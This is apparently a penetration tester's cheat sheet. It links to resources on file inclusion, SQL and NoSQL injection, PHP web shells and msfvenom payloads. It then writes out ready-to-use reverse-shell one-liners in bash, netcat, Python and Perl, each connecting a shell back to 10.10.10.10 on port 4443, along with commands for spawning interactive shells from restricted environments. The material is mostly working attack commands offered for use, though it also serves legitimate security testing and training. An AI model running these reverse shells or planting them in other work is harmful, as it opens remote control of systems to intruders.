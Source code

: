 ## Web

- LFI/RFI: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-rfi
- MSSQL Injection: https://www.exploit-db.com/papers/12975
    - MSSQL Union Based Injection: http://www.securityidiots.com/Web-Pentest/SQL-Injection/MSSQL/MSSQL-Union-Based-Injection.html
    - MSSQL SQL Injection Cheat Sheet: http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- MySQL Injection: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- MongoDB Nosql Injection: https://security.stackexchange.com/questions/83231/mongodb-nosql-injection-in-python-code
    - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

## Shell Exploitation

- Reverse Shell Cheat Sheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
    - More Reverse Shells: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
    - Even More Reverse shells: https://delta.navisec.io/reverse-shell-reference/
- Spawning TTY Shell: https://netsec.ws/?p=337
- Metasploit payloads (msfvenom): https://netsec.ws/?p=331
- Best Web Shells: https://www.1337pwn.com/best-php-web-shells/
    - https://github.com/artyuum/Simple-PHP-Web-Shell
    - http://www.topshellv.com/
- Escape from SHELLcatraz: https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=10

### Reverse Shells

- bash -i >& /dev/tcp/10.10.10.10/4443 0>&1
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
- nc -e /bin/sh 10.10.10.10 4443
- nc -e cmd.exe 10.10.10.10 4443
- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
- perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Spawn TTY Shells

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- (From within IRB): exec "/bin/sh"
- (From within vi): :!bash
- (From within vi): :set shell=/bin/bash:shell
- (From within nmap): !sh

